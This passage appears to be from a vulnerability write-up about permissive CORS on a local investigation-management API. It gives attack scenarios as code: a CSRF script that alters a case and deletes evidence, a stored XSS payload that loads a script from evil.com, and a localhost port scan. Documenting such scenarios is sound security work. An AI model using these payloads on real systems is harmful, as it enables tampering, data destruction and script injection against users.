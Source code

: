 ### Scenario 2: Cross-Site Request Forgery (CSRF)
```html
<!-- Malicious website automatically modifies investigations -->
<script>
// Modify investigation without user consent
fetch('http://127.0.0.1:8081/api/v1/investigations/critical-case-123', {
  method: 'PUT',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    title: 'CASE COMPROMISED',
    status: 'archived',
    description: 'Investigation has been tampered with'
  })
});

// Delete evidence
fetch('http://127.0.0.1:8081/api/v1/investigations/critical-case-123/evidence/key-evidence', {
  method: 'DELETE'
});
</script>
```

### Scenario 3: Persistent XSS via CORS
```javascript
// Attacker injects malicious investigation
fetch('http://127.0.0.1:8081/api/v1/investigations', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    title: '<script src="https://evil.com/malware.js"></script>',
    description: 'Persistent XSS payload',
    created_by: 'attacker'
  })
});
// When viewed by other users, script executes in their context
```

### Scenario 4: Network Reconnaissance
```javascript
// Scan for running services on user's machine
const ports = [8080, 8081, 3000, 5000, 8000, 9000];
const localServices = [];

for (const port of ports) {
  fetch(`http://127.0.0.1:${port}/`)
    .then(response => {
      if (response.ok) {
        localServices.push(port);
        // Attempt to access discovered services
      }
    })
    .catch(() => {}); // Ignore failures
}
```
